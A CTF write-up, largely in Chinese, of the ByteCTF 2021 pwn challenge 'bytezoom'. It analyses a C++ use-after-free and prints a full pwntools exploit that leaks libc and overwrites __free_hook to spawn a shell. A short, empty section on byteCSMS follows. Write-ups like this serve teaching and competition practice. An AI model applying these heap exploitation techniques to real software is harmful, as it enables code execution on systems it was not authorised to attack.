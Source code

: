 ```yaml
---
name: ByteCTF-2021
challenges:
- name: bytezoom
  tag: cpp | UAF
  solved: true
- name: byteCSMS
  tag: cpp | heapfengshui
  solved: false
---
```


## bytezoom

> This should be the "signin-challenge" sorted to pwn in bytectf2021(, and also the first challenge I tried in a CTF game).
>
> But I didn't solve it before the game ended.
>
> 现在回过头来看，这道题其实就一个 UAF，难点在于 cpp 中对堆块的申请和释放比较隐蔽，一开始不太好分析。

#### Analysis

首先看漏洞发生在 `manage_select` 的函数中，这里不难看出（实际上也可以根据 if-else 的逻辑 + 调试得到）被 select 的 cat/dog 会被放在同一个名为 `unk_1c280`（实际偏移是 `0x122E0`）的全局变量中，而后面的其他 manage 都用了这个全局变量来做索引，这在 UAF 的同时也__隐含了 cat 和 dog 是有机会混淆的__。

这样来看，UAF 已经基本满足条件，接下来是怎么 free 的问题：程序中确实没有对 free 的显式调用，但不妨试一下申请两个类型、序号都一样的对象，发现旧的那个会被释放进 bin 中。

有了大概思路后再回头看 ida 会轻松很多，进到 create 里面，发现了关于字符串申请、复制相关的操作，又已知：字符串申请的大小是从小到大，发现装不够就翻倍的模式。这就给利用过程中申请不同大小的 chunk 提供了条件。

这时候也可以到 create 函数读完 idx 后面的那句 search 函数中细看一下 free 的逻辑：

```cpp
std::unordered_map<int,Node<int,std::shared_ptr<unk_12340>> *,std::hash<int>,std::equal_to<int>,std::allocator<std::pair<int const,Node<int,std::shared_ptr<unk_12340>> *>>>::erase(v8, v9);
```

关键就在于 unordered_map 在遇到两个相同的对象时，会 free 掉老的那个，这便是上面堆块释放行为的由来。

再看一下 cat 和 dog 结构体中的成员：

```python
    cat                             dog
    -----------------------         -----------------------
    | chunk size: 0x40    |         | chunk size: 0x40    |
    |---------------------|         |---------------------|
    | ptr to heap         |         | ptr to heap         |
    |---------------------|         |---------------------|
    | name_ptr            |         | age                 |
    |---------------------|         |---------------------|
    | name_size           |         | name_ptr            |
    |---------------------|         |---------------------|
    | prepared_for_name   |         | name_size           |
    |---------------------|         |---------------------|
    | prepared_for_name   |         | prepared_for_name   |
    |---------------------|         |---------------------|
    | age                 |         | prepared_for_name   |
    -----------------------         -----------------------
```

#### Exploitation

```python
#!/usr/bin/python3
#-*- coding: utf-8 -*-
from pwn import *

context.log_level = 'debug'
context.arch='amd64'
context.terminal = ['tmux','sp','-h','-l','120']

LOCAL = 1

filename = "./pwn"
if LOCAL:
    p = process(filename)
else:
    remote_service = ""
    remote_service = remote_service.strip().split(":")
    p = remote(remote_service[0], int(remote_service[1]))
e = ELF(filename, checksec=False)
l = ELF(e.libc.path, checksec=False)


rl = lambda a=False : p.recvline(a)
ru = lambda a,b=True : p.recvuntil(a,b)
rn = lambda x : p.recvn(x)
sn = lambda x : p.send(x)
sl = lambda x : p.sendline(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)
irt = lambda : p.interactive()
dbg = lambda text=None : gdb.attach(p, text)
lg = lambda s : log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
i2b = lambda c : str(c).encode()
uu32 = lambda data : u32(data.ljust(4, b'\x00'))
uu64 = lambda data : u64(data.ljust(8, b'\x00'))
def debugPID():
    if LOCAL:
        lg("p.pid")
        input()
    pass

def cmd(choice):
	ru(b'choice:\n')
	sl(i2b(choice))
def create(cat_dog, idx, age, name=b'a'*8):
	cmd(1)
	ru(b'cat or dog?\n')
	tmp = b'dog' if (cat_dog) else b'cat'
	sl(tmp)
	ru(b'index:\n')
	sl(i2b(idx))
	ru(b"name:\n")
	sl(name)
	ru(b"age:\n")
	sl(i2b(age))
def show(cat_dog, idx):
	cmd(2)
	ru(b'cat or dog?\n')
	tmp = b'dog' if (cat_dog) else b'cat'
	sl(tmp)
	ru(b'index:\n')
	sl(i2b(idx))
def manage_select(cat_dog, idx):
	cmd(3)
	cmd(1)
	ru(b'select cat or dog?\n')
	tmp = b'dog' if (cat_dog) else b'cat'
	sl(tmp)
	ru(b"index:\n")
	sl(i2b(idx))
	cmd(4)
def manage_add_age(cat_dog, delta):
	cmd(3)
	cmd(2)
	ru(b'select cat or dog?\n')
	tmp = b'dog' if (cat_dog) else b'cat'
	sl(tmp)
	ru(b'add\n')
	sl(i2b(delta))
	cmd(4)
def manage_name(cat_dog, new_name):
	cmd(3)
	cmd(3)
	ru(b'select cat or dog?\n')
	tmp = b'dog' if (cat_dog) else b'cat'
	sl(tmp)
	ru(b'name:\n')
	sl(new_name)
	cmd(4)

debugPID()


# -------leak-thorugh-UAF---------
## trying to get a unsortedbin chunk near nameptr
create(1, 0, 8, b"a"*0x420)
manage_select(1, 0)
create(1, 0, 8, b"a"*0x20)
create(0, 0, 8, b"a"*0x20)

manage_add_age(1, 0xc0)
show(0, 0)
ru(b"name:")
libc_base = uu64(rn(6)) - 0x1ecbe0
lg("libc_base")


# -------tcache-attack------------
create(1, 1, 8, b"a"*0x30)
manage_select(1, 1)
create(1, 1, 8, b"b"*0x30)
manage_name(1, p64(libc_base + l.symbols['__free_hook'] - 0x18).replace(b"\x00", b""))
create(1, 2, 8)
create(1, 3, 8, b"/bin/sh\x00".ljust(0x60, b"a"))
create(0, 4, 8, p64(libc_base + l.symbols['system']))
create(1, 3, 8)

irt()
```

## byteCSMS

> 上一题主要考察了 shared_ptr 和 string 的内存结构，这道题考察的则是 vector。
>
> 主要漏洞是堆溢出（通过测试很容易发现）。

#### Analysis


